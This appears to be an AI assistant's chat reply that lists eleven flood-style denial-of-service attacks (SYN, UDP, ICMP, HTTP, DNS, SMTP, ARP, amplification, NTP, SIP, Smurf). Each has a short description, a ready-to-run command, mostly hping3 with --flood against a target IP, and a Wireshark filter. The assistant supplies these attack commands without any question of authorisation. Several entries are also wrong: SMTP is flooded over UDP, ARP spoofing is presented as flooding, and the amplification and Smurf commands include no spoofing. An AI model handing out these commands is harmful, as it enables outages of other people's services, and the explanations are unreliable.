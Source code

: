 Sure, let's dive into a detailed breakdown of each type of flood attack, the commands used to perform them, and the Wireshark filters to capture the traffic.

### 1. SYN Flood
**Description:**
A SYN flood attack exploits the TCP handshake process. The attacker sends a succession of SYN requests to a target's system, but never completes the handshake by sending the final ACK. This consumes server resources, making it unresponsive to legitimate traffic.

**Command:**
```bash
hping3 -S -p 80 --flood -V <target_ip>
```
- `hping3`: A command-line tool for network testing.
- `-S`: Send a SYN packet.
- `-p 80`: Specify the target port (HTTP in this case).
- `--flood`: Send packets as fast as possible.
- `-V`: Verbose mode.

**Wireshark Filter:**
```plaintext
tcp.flags.syn == 1
```
This filter captures only the SYN packets, which are the initial packets in the TCP handshake.

### 2. UDP Flood
**Description:**
A UDP flood attack sends a large number of UDP packets to random ports on a remote host. Since UDP is connectionless, the target system will try to process each packet, consuming resources.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```
- `-2`: Use UDP mode.
- `-p 53`: Specify the target port (DNS in this case).

**Wireshark Filter:**
```plaintext
udp
```
This filter captures all UDP packets.

### 3. ICMP Flood (Ping Flood)
**Description:**
An ICMP flood attack sends a large number of ICMP Echo Request (ping) packets to the target. The target system will respond with ICMP Echo Reply packets, consuming resources.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```
- `-C 8`: Send an ICMP Echo Request packet.

**Wireshark Filter:**
```plaintext
icmp
```
This filter captures all ICMP packets.

### 4. HTTP Flood
**Description:**
An HTTP flood attack sends a large number of HTTP requests to a web server. This can overwhelm the server, making it unresponsive to legitimate requests.

**Command:**
```bash
ab -n 10000 -c 100 <target_url>
```
- `ab`: ApacheBench, a tool for benchmarking web servers.
- `-n 10000`: Number of requests to perform.
- `-c 100`: Number of multiple requests to make at a time.

**Wireshark Filter:**
```plaintext
http
```
This filter captures all HTTP packets.

### 5. DNS Flood
**Description:**
A DNS flood attack sends a large number of DNS requests to a DNS server. This can overwhelm the server, making it unresponsive to legitimate DNS queries.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```
- `-p 53`: Specify the target port (DNS).

**Wireshark Filter:**
```plaintext
dns
```
This filter captures all DNS packets.

### 6. SMTP Flood
**Description:**
An SMTP flood attack sends a large number of SMTP requests to an SMTP server. This can overwhelm the server, making it unresponsive to legitimate email traffic.

**Command:**
```bash
hping3 -2 -p 25 --flood -V <target_ip>
```
- `-p 25`: Specify the target port (SMTP).

**Wireshark Filter:**
```plaintext
smtp
```
This filter captures all SMTP packets.

### 7. ARP Flood
**Description:**
An ARP flood attack sends a large number of ARP requests to a network. This can overwhelm the network, making it unresponsive to legitimate ARP requests.

**Command:**
```bash
arpspoof -i <interface> -t <target_ip> <gateway_ip>
```
- `arpspoof`: A tool for ARP spoofing.
- `-i <interface>`: Specify the network interface.
- `-t <target_ip>`: Specify the target IP.
- `<gateway_ip>`: Specify the gateway IP.

**Wireshark Filter:**
```plaintext
arp
```
This filter captures all ARP packets.

### 8. DNS Amplification Attack
**Description:**
A DNS amplification attack sends a large number of DNS requests to a DNS server with a spoofed source IP address. The responses are sent to the spoofed IP, overwhelming the target.

**Command:**
```bash
hping3 -2 -p 53 --flood -V <target_ip>
```
- `-p 53`: Specify the target port (DNS).

**Wireshark Filter:**
```plaintext
dns
```
This filter captures all DNS packets.

### 9. NTP Flood
**Description:**
An NTP flood attack sends a large number of NTP requests to an NTP server. This can overwhelm the server, making it unresponsive to legitimate NTP queries.

**Command:**
```bash
hping3 -2 -p 123 --flood -V <target_ip>
```
- `-p 123`: Specify the target port (NTP).

**Wireshark Filter:**
```plaintext
ntp
```
This filter captures all NTP packets.

### 10. SIP Flood
**Description:**
A SIP flood attack sends a large number of SIP requests to a SIP server. This can overwhelm the server, making it unresponsive to legitimate SIP traffic.

**Command:**
```bash
sipflood -t <target_ip> -p 5060 -c 1000
```
- `sipflood`: A tool for SIP flooding.
- `-t <target_ip>`: Specify the target IP.
- `-p 5060`: Specify the target port (SIP).
- `-c 1000`: Number of concurrent connections.

**Wireshark Filter:**
```plaintext
sip
```
This filter captures all SIP packets.

### 11. Smurf Attack
**Description:**
A Smurf attack sends a large number of ICMP Echo Request packets with a spoofed source IP address to a network. The responses are sent to the spoofed IP, overwhelming the target.

**Command:**
```bash
hping3 -C 8 --flood -V <target_ip>
```
- `-C 8`: Send an ICMP Echo Request packet.

**Wireshark Filter:**
```plaintext
icmp
```
This filter captures all ICMP packets.

Would you like me to explain or break down any of the commands or filters further?
